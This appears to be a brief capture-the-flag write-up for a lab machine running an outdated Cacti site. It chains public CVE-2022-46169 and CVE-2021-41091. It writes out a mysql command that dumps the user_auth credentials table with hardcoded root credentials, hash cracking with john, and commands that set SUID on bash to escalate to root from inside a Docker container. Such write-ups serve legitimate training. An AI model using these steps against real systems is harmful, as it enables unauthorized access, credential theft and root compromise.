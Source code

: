 # Solve

1. outdated website, use public `CVE-2022-46169` to gain shell
2. most likely the website shell is ran inside a docker container, inspect the `entrypoint.sh`
3. using the hardcoded command, we can query the `user_auth` tables in the database to get credentials using the following command:    
`mysql --host=db --user=root --password=root cacti -e "select * from user_auth"`
4. crack the hash using `john`
5. connect and check the docker version. It is susceptible to `CVE-2021-41091`
6. back at the inside the docker abuse `/bin/bash` SUID to privsec to root      
`$ install -m =xs $(which bash) .`      
`$ /bin/bash -p`
7. recreate the `CVE-2021-41091` PoC  

    **inside the docker container:**    
        - `$ install -m =xs $(which bash) .`  
        - `$ /bin/bash -p`  
        - `$ chmod u+s /bin/bash`  
        - `$ /bin/bash`  
    **then at the host machine:**    
        - copy the PoC script  
        - run and follow the script instruction   